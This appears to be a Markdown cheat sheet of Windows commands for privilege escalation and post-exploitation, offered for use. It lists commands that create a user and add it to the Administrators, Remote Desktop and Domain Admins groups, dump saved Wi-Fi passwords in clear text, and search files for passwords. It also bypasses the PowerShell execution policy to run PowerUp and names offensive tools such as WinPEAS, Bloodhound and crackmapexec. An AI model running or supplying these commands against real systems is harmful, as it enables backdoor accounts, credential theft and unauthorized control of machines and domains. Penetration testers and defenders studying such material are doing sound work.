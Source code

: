 #### Creating an account
```
- net user name Username12345678* /add /Y
- net localgroup administrators name /add
- net localgroup "Remote Desktop Users" name /add #access RDP
- net localgroup "Backup Operators" name /add #full acceess to files
- net group "Domain Admins" name /add /domain
- net user name /ACTIVE:YES /domain` #enables domain user account
```

#### System Enum
```
- systeminfo
- systeminfo | findstr /B /C:"OS Name" /C:"OS Version" /C:"System Type"
- hostname
- wmic qfe
- wmic qfe get Caption,Description,HotFixID,InstalledOn
- wmic logicaldisk get caption,description,providername
- whoami /priv
- whoami /groups
- net user babis
- net localgroup
- net localgroup administrators
- C:\Program Files
  - search for vulns in all installed software
```

#### Network Enum
```
- ipconfig /all
- netstat -ano #listening ports
- route print #routing table
- arp -a
- Netsh wlan show profile
- Netsh wlan show profile <SSID> key=clear

```

#### Passwords
```
- findstr /si password *.txt
- findstr /si password *.txt *.config *.ini
```

#### AV Enum
```
- sc query windefend
- sc queryex type= service
- netsh advfirewall firewall dump
- netsh firewall show state
- netsh firewall show config
```
#### Tools
```
- PowerUp
  - powershell -ep bypass
  - import powerup
  - ..\PowerUp.ps1
  - then:
  - invoke-AllChecks
  - let this run
- WinPEAS
- Windows-exploit-suggester.py
- Bloodhound
- crackmapexec/netexec
- PEASS-ng
```

#### Sites:
- [LOLBAS](https://lolbas-project.github.io/#)
  - GTFObins of windows
- [hacktricks](https://book.hacktricks.wiki/en/windows-hardening/windows-local-privilege-escalation/index.html)
- [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md)
- [Absolomb](https://www.absolomb.com/2018-01-26-Windows-Privilege-Escalation-Guide/)

